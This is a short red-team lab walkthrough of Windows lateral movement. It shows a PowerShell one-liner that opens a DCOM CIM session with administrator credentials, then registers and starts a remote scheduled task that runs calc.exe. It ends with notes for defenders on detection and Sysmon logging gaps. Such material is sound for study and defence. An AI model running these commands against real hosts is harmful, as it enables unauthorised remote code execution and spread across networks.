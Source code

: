 # WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Graphic showing both of the above commands and also the process ancestry on the target system:

![](../../.gitbook/assets/peek-2018-10-19-22-24.gif)

## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may also want consider monitoring for new scheduled tasks that get created on your systems:

![](../../.gitbook/assets/screenshot-from-2018-10-19-22-35-13.png)

![](../../.gitbook/assets/screenshot-from-2018-10-19-22-59-12.png)

{% hint style="info" %}
Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe
{% endhint %}



